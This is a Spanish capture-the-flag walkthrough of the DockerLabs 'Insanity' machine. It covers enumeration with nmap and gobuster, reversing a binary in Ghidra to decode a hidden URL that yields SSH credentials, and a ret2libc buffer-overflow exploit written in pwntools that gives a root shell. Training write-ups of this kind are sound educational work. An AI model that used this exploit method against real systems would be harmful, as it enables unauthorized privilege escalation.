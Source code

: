 nmap: 22,80

![image](https://github.com/user-attachments/assets/9a5132f3-0a20-4689-8f07-2f6823477b83)

si entramos a la pagina es un apache como nombra en el nmap, entramos al código fuente y nos mostrara esto

![image](https://github.com/user-attachments/assets/5a899861-971f-45a2-beae-b6e4991f89c1)

lanzamos un gobuster 

     gobuster dir -u http://insanity.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt -t 100 -k

y obtenemos 

![image](https://github.com/user-attachments/assets/5ba202fc-7a78-4e33-81a2-bf844081ce3d)

entramamos y obtenemos

![image](https://github.com/user-attachments/assets/c86393b4-2728-4a69-8cdb-396aa439403e)

los descargamos y ejecutamos

![image](https://github.com/user-attachments/assets/4de4dd06-7a32-4ff1-a316-ea41755b6da0)

con secret obtenemos que es una clave incorrecta y con libcredenciales.so da segmentation fault, probando no obtenemos nada. así que vamos a utilizar ghidra para ver el contenido del código 

Lo importante que entendí del código
> Primero que hay un wget así que descarga un archivo
> g(): Define un arreglo de valores o sea local_4d8, local_4d4 y así. 
> usa b() para convertir estos valores en una cadena
> También  llama a "a()" para cada valor en un arreglo de enteros
>o sea vería así: b(long param_1, int param_2, long param_3)

así que basado en esto podemos decodificar con un código python

![image](https://github.com/user-attachments/assets/4cdd940e-c5a3-4c7c-9d40-189b4e6bfdf4)

con este código lo vamos a lanzar con python3

     def transform_value(value):
    special_cases = {
        0x1B: 0x3A,
        0x1C: 0x2F,
        0x1D: 0x2E,
        0x1E: 0x5F
    }
    
    if value in special_cases:
        return special_cases[value]
    elif 1 <= value <= 0x1A:
        return value + 0x60
    else:
        return 0x3F
        
        def convert_values_to_string(values):
    return "".join(chr(transform_value(value)) for value in values)
    
    values = [
    8, 20, 20, 16, 27, 28, 28, 9, 14, 19, 1, 14, 9, 20, 25, 29, 4, 12, 28, 21,
    12, 20, 18, 1, 30, 19, 5, 3, 18, 5, 20, 30, 6, 15, 12, 4, 5, 18, 11, 13, 1 ]
    result = convert_values_to_string(values)
    print("Resultado:", result)


y obtenemos esto

![image](https://github.com/user-attachments/assets/6e3e218e-779d-4a2d-b7ef-cf7153ea8469)

> http://insanity.dl/ultra_secret_folderkma

![[dockerlabs/dificil/Insanity/credenciales.png]]

tenemos las credenciales de SSH

![[dockerlabs/dificil/Insanity/conexion.png]]

tenemos la conexión ahora vamos buscando y encontramos esto

![[over.png]]

vamos a lanzar ahí mismo 

     gdb -q ./vuln

ahora colocamos los que nos dio el código

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400 

![[meta.png]]

ahora en el gdb lanzamos una r y ahora colocamos el resultado

![[resul.png]]

obtenemos este resultado

    0x0000000000401189 in vuln ()

ahora lanzamos en nuestra terminal

    python2 -c 'print("A"*136 + "BBBBBB")'

en el gdb lanzamos run y colocamos el nuevo resultado y obtenemos

    0x0000424242424242 in ?? ()

![[resul2.png]]

entonces cambio porque en el primer "ataque" aparece la protección, si lanzamos un "info frame" mostrara si se ejecuta correctamente pero como se vio muestra la protección, ahora que lanzamos tomando en cuenta el "136" le sumamos las B o sea "136 + 6 B"
y podemos obtener el ultimo resultado. ahora quedaría encontrar la direccion de memoria que seria el "sh"

![[memoria.png]]

veremos si esta ahí y efectivamente esta 

![[memoria2.png]]

ahora seria buscar la dirección de memoria pero de system, con el comando 

    p system

y nos dará

![[system.png]]

encontré este comando que es para ver si se encuentra ahí
 
     ROPgadget --binary ./vuln

de muchas lineas que nos da, nos interesa una

     0x0000000000401016 : ret

así que obtenemos la dirección de ret, ahora buscamos la de pop rdi

     ROPgadget --binary ./vuln | grep "pop rdi"

y me dio

     0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401168 : mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401167 : mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
     0x000000000040116a : pop rdi ; nop ; pop rbp ; ret
     0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret

la que buscábamos es la 

     0x000000000040116a 

ahora con todos los valores creamos un código python que contenga los valores

![[exploit.png]]


este es el código 

     from pwn import *
     binary_path = '/opt/vuln'
     binary = ELF(binary_path)
     p = process(binary_path)
     
     gadgets = {
    "pop_rdi_ret": 0x40116a,
    "ret": 0x401016         
    }
    addresses = {
    "bin_sh": 0x7ffff7f73031, 
    "system": 0x7ffff7e29490  
    }
    
    offset = 136                  
    payload = b"A" * offset        
    payload += p64(gadgets["pop_rdi_ret"])  
    payload += p64(addresses["bin_sh"])     
    payload += p64(gadgets["ret"])         
    payload += p64(addresses["system"])    
    
    def exploit():
    p.sendline(payload)
    p.interactive()
    
    if __name__ == "__main__":
    exploit()


ahora los pasamos a la maquina victima y lo ejecutamos

![[dockerlabs/dificil/Insanity/root.png]]

y somos root! 
